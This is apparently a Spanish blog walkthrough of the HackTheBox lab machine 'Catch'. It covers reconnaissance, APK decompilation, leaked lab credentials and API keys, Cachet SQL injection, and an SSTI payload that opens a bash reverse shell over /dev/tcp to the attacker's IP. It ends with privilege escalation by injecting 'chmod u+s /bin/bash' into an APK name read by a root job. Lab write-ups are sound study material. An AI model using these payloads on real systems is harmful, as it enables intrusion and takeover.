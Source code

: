 ```yaml
---
layout: post
title: "Write Up Catch. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,Apache,Mobile,Vulnerability-Assessment,Client-Side,Source-Code-Analysis,Outdated-Software,Authentication,Laravel,Docker,Bash,Password-Reuse,Scheduled,Job-Abuse,Decompilation,RCE,Clear-Text-Credentials,OS-Command-Injection,Deserialization,API,    SQLi,Git,CronJob,APK,eWPT,eWPTxv2,OSWE]
image:
  path: /assets/img/catch/Captura%20de%20pantalla%20(325).png
---
```


***

<!--more-->

1. this ordered seed list will be replaced by the toc
   {:toc}

---

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000 -n -vvv -Pn 10.10.11.150 -oA allports
```

![list](/assets/img/catch/Parrot-SO3-2022-07-24-13-42-19.png){:.lead width="800" height="100" loading="lazy"}


### Services and Versions


```bash
nmap -p22,80,3000,5000,8000 -sV -sC 10.10.11.150 -oN target
```

![list](/assets/img/catch/Parrot-SO3-2022-07-24-13-40-44.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigación web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e inspeccionamos la web, ademas de las tecnologías de la ip atravez de la terminal o via web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-13-42-31.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
No encontramos nada interesante.


Inspeccionando la web vemos que nos podemos descargar un archivo `catchv1..0.apk` y para eso vamos usar `APKTools`.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-13-39-04.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Pagina web.


Con el comando `apktool -d catchv1..0.apk` decodeamos la APK en una forma de directorio.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-14-02-18.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Decodeamos el APK.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-14-17-09.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Buscamos en el directorio el subdominio `status.catch.htb` el cual también vamos agregar al `/etc/hosts`.


Husmenado encontramos varios token que vamos a guardar en un archivo como lo son `NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==`.


Ahora abrimos las tres paginas web que son en los puertos `3000`, `5000`, `8000`.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-14-29-44.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Puerto 3000.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-14-29-53.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Puerto 5000.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-14-29-59.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Puerto 8000.


Vamos aprobar con el puerto 5000 si investigamos la web no lleva a un proyecto de github que se trata de un chat en edescubrimos que podemos enumerar rooms con una API y tenemos una api que encontramos de antes asi que vamos hacer eso y obtenemos:


![list](/assets/img/catch/Parrot-SO3-2022-07-24-14-58-23.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Obtenemos los identificadores de sala.


Ahora si hacemos lo mismo solo que en ves `/rooms` ahora pondemos `/rooms/<identificador>/messages` podemos ver la conversaciones de usuarios y encontramos credenciales `john:E}V!mywu_69T4C}W` , podemos tratarde conectarnos por SSH pero funciona pero como tnemos muchos paneles podemos probar en alguno, y es valida en el puerto 8000.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-15-18-55.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Estamos dentro de un `Dashboard`.


Investigando encontramos que es un [catchet-dev.2.4] que vamos a buscar vulnerabilidades en internet y tambien de un [Blog] de bountbounty.


[Blog]: (https://www.leavesongs.com/PENETRATION/cachet-from-laravel-sqli-to-bug-bounty.html)


![list](/assets/img/catch/Parrot-SO3-2022-07-24-15-36-49.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Vamos a usar sqlmap o en la web pero se demora ,vemos un id.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-15-36-49.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Vemos las apikeys de usuario `john:7GVCqTY5abrox48Nct8j` y de `admin:rMSN8kJN9TPADl2cWv8N`.


Ahora si el campo suceptible a SSTI es `INCIDEN TEMPLATES` aqui es donde vamos a poner el \{\{7\*7\}\} pero no podemos ver la respuesta 49 en ningunaparte de la web, para eso vamos abrir burpsuite e interceptar la peticion o atarves de consola agreagandole la api y la cabecera de data por POST de la siguiente forma:


![list](/assets/img/catch/Parrot-SO3-2022-07-24-16-11-18.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Vemos las apikeys de usuario `john:7GVCqTY5abrox48Nct8j` y de `admin:rMSN8kJN9TPADl2cWv8N`.


Para entablarnos una reverse-shell en el campo `INCIDEN TEMPLATES` injectamos el comado \{\{["bash -c 'bash -i >& /dev/tcp/10.10.16.14/443 0>%1'"]|filter("system")|join(",")\}\}.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-16-21-45.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/catch/Parrot-SO3-2022-07-24-16-21-48.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Debemos estar ala escucha con netcat por el puerto 443 y ya somos www-data y es un contenedor.


[catchet-dev.2.4]: (https://www.sonarsource.com/blog/cachet-code-execution-via-laravel-configuration-injection/)


Con el comado find del blog que vimos antes vamos a buscar por archivos .env.


![list](/assets/img/catch/Parrot-SO3-2022-07-24-16-44-21.png){:.lead width="800" height="100" loading="lazy"}


```shell
find \-name .env 2>/dev/null
```


{:.note}
En contramos las credenciales de `will:s2#4Fg0_%3!` que vamoS a usar para conectarnos por ssh y buscar la flag que esta en su escritorio.


***

## Explotacion and Escalation Privileges


Siempre es bueno ejecutar `LimEnum` Y `pspy` para monitorizar y ver los posibles vectores para escalar de privilegios, y encontramos un proceso llamado `/opt/mdm/verify.sh` que vamos a investigar, lo que debemos hacer es compilar la APK nuevamente con `apktool -b catchv1..0.apk` y los errores borrarlos de `public.xml` y agrgarle `<strings name="app_name">Catch: chmod u+s /bin/bash</string>` al `public-xml` mismo y guardar y los ubimos a la maquinavictima en la ruta `/opt/mdm/apk_bin` esperamos un rato y hacemos un `bash -p`.



{:.note}
Lo ultimo es buscar la flag de superusuario en el escritorio de root.



---

```shell
🎉 Felicitaciones ya has comprometido Catch de HackTheBox 🎉
```

{:.centered}

***
Back to [Certification eWPT](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification eWPTv2](){:.heading.flip-title}
{:.read-more}

***
Back to [Certification OSwEwe](){:.heading.flip-title}
{:.read-more}





